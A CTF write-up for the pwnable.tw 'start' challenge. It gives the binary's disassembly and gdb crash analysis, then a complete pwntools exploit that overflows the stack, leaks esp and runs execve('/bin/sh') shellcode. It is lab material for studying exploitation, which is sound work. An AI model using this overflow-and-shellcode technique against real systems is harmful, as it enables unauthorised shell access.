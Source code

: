 pwnable.tw start writeup
===

## environment

```sh
$ uname -a
Linux base-debootstrap 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

$ gdb --version
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word".
```

## Finding

Executed file command.
This file is ELF file for 32bit.

```sh
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```

Extected strace command.
This file get 60 bytes input with read systemcall.

```sh
$ strace ./start 
execve("./start", ["./start"], [/* 19 vars */]) = 0
strace: [ Process PID=629 runs in 32 bit mode. ]
write(1, "Let's start the CTF:", 20Let's start the CTF:)    = 20
read(0, AAAA
"AAAA\n", 60)                   = 5
exit(0)                                 = ?
+++ exited with 0 +++
```

Disassemble with objdump.

```sh
$ objdump -M intel -d ./start 

./start:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:       54                      push   esp
 8048061:       68 9d 80 04 08          push   0x804809d
 8048066:       31 c0                   xor    eax,eax
 8048068:       31 db                   xor    ebx,ebx
 804806a:       31 c9                   xor    ecx,ecx
 804806c:       31 d2                   xor    edx,edx
 804806e:       68 43 54 46 3a          push   0x3a465443
 8048073:       68 74 68 65 20          push   0x20656874
 8048078:       68 61 72 74 20          push   0x20747261
 804807d:       68 73 20 73 74          push   0x74732073
 8048082:       68 4c 65 74 27          push   0x2774654c
 8048087:       89 e1                   mov    ecx,esp
 8048089:       b2 14                   mov    dl,0x14
 804808b:       b3 01                   mov    bl,0x1
 804808d:       b0 04                   mov    al,0x4
 804808f:       cd 80                   int    0x80
 8048091:       31 db                   xor    ebx,ebx
 8048093:       b2 3c                   mov    dl,0x3c
 8048095:       b0 03                   mov    al,0x3
 8048097:       cd 80                   int    0x80
 8048099:       83 c4 14                add    esp,0x14
 804809c:       c3                      ret    

0804809d <_exit>:
 804809d:       5c                      pop    esp
 804809e:       31 c0                   xor    eax,eax
 80480a0:       40                      inc    eax
 80480a1:       cd 80                   int    0x80
```

This file take the following behavior.

1. Initialize to 0 value on eax, ebx, ecx and edx.
2. Push 20 bytes value onto the stack(This value is "Let's start the CTF:")
3. Call write systemcall(al=0x4) and output character string of step 2
4. Call read systemcall(al=0x3) and receive 60 bytes input
5. Add 20 bytes of address in esp
6. Call ret instruction, and eip will be "0x804809d"(_exit function address)
7. Call _exit function

I can execute code with 0x14 bytes + "Address".
Try it with gdb.

```sh
$ python -c 'print("A"*0x14 + "BBBB")'
AAAAAAAAAAAAAAAAAAAABBBB
 gdb -q ./start
pwndbg: loaded 164 commands. Type pwndbg [filter] for a list.
pwndbg: created $rebase, $ida gdb functions (can be used with print/break)
Reading symbols from ./start...(no debugging symbols found)...done.
pwndbg> r
Starting program: /home/vagrant/work/tw/start/start 
Let's start the CTF:AAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
────────────────────────────────────────────────────────────────────────────────[ REGISTERS ]────────────────────────────────────────────────────────────────────────────────
*EAX  0x19
 EBX  0x0
*ECX  0xffffd6e4 ◂— 0x41414141 ('AAAA')
*EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
*ESP  0xffffd6fc —▸ 0xffffd70a ◂— 0xd84e0000
*EIP  0x42424242 ('BBBB')
─────────────────────────────────────────────────────────────────────────────────[ DISASM ]──────────────────────────────────────────────────────────────────────────────────
Invalid address 0x42424242










──────────────────────────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────────────────────────
00:0000│ esp  0xffffd6fc —▸ 0xffffd70a ◂— 0xd84e0000
01:0004│      0xffffd700 ◂— 0x1
02:0008│      0xffffd704 —▸ 0xffffd82c ◂— 0x6d6f682f ('/hom')
03:000c│      0xffffd708 ◂— 0x0
04:0010│      0xffffd70c —▸ 0xffffd84e ◂— 0x4c454853 ('SHEL')
05:0014│      0xffffd710 —▸ 0xffffd85e ◂— 0x4d524554 ('TERM')
06:0018│      0xffffd714 —▸ 0xffffd872 ◂— 0x5f485353 ('SSH_')
07:001c│      0xffffd718 —▸ 0xffffd88f ◂— 0x5f485353 ('SSH_')
────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────────────────────────────────────────
 ► f 0 42424242
Program received signal SIGSEGV (fault address 0x42424242)
```


:smile:


Next step, I checked security settings on this binary.

```sh
pwndbg> checksec
[*] '/home/vagrant/work/tw/start/start'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```

wow... NX bit is desabled.
Okay, We can exec code on stack.

### Writeup

1. Launch ./start
2. Overflow and output esp address with "0x8048087"(mov ecx,esp)
3. Add 0x14 + shellcode
4. Execute shellcode

```python=
# coding: utf-8
from pwn import *

# Set target environment
context(os='linux', arch='i386')

HOST = 'chall.pwnable.tw'
PORT = 10000

# mov ecx, esp & write systemcall gadget address
stack_leak = 0x08048087
shell_code = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

# for executing code on remote or local
if len(sys.argv) > 1 and sys.argv[1] == '-r':
    conn = remote(HOST, PORT)
else:
    conn = process('./start')

log.info('Pwning start')
conn.recvuntil(":")

# leak esp value
stage1 = b'A'*0x14
stage1 += p32(stack_leak)

# Save esp value and print esp value
conn.send(stage1)
stack_addr = u32(conn.recv(4))
log.info("Stack Address: {}".format(hex(stack_addr)))

# Add 0x14 and shellcode
stage2 = b'B'*0x14
stage2 += p32(stack_addr + 0x14)
stage2 += shell_code

# Get shell
conn.send(stage2)
conn.interactive()
```
